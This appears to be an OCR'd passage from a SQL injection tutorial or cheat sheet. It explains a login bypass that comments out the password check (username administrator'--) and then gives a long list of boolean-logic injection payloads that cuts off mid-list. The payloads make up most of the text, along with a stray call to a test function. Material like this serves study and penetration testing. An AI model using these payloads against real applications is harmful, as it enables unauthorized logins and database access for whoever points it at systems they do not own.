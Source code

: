 ```
test_sql_injection(url, payloads)

```


### Subverting Application Logic

Application that have login and when user submit the application check the credentials by performing SQL query.

`SELECT * FROM users WHERE username = 'whyme' AND password = 'superstrong'`

If the query returns the details of a user, then the login is successful. Otherwise, it is rejected. In this case, an attacker can log in as any user without the need for a password. They can do this using the SQL comment sequence `--` to remove the password check from the **WHERE** clause of the query. For example, submitting the username `administrator'-- `and a blank password results in the following query: 

`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

SQLi Logic 

```
true
1
1>0
2-1
0+1
1*1
1%2
1 & 1
1&1
1 && 2
1&&2
-1 || 1
-1||1
-1 oR 1=1
1 aND 1=1
(1)oR(1=1)
(1)aND(1=1)
-1/**/oR/**/1=1
1/**/aND/**/1=1
1'
1'>'0
2'-'1
0'+'1
1'*'1
1'%'2
1'&'1'='1
1'&&'2'='1
-1'||'1'='1
-1'oR'1'='1
1'aND'1'='1
1"
1">"0
2"-"1
0"+"1
1"*"1
1"%"2
1"&"1"="1
1"&&"2"="1
-1"||"1"="1
-1"oR"1"="1
1"aND"1"="1
1`
1`>`0
```